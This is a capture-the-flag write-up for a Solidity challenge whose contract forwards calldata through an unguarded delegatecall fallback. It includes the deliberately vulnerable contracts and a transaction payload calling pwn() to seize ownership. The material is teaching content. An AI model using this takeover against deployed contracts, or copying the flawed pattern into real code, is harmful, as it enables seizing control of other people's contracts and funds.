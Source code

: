 # Description
The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

# Notes

- solving this challenge becomes obvious when knowing on key information about how `delegatecall` works, and that it preserves the calling contract’s context (`storage`,`msg.sender` and `msg.value`)

- So the the idea is to make a transaction to the `Delegation` with the signature of the `pwn()` function, ( function signature is calculated like so : `bytes4(sha3("functionName(inputType)")` ) and since that signature doesn't exist in the `Delegation` contract, the fallback function will be executed and a `delegatecall` will be sent to the `Delegate` contract with the same `msg.value`, and since we are keeping the context here, the `owner` variable changed in the `Delegate` contract is in fact changing in  `Delegation`. ( Note : it is mandatory that the `owner` variable in bother contracts has the same slot in both contracts, aka first slot. )
- So the final payload is the flollowing : 
```
await sendTransaction({
  from: player,
  to: contract.address,
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```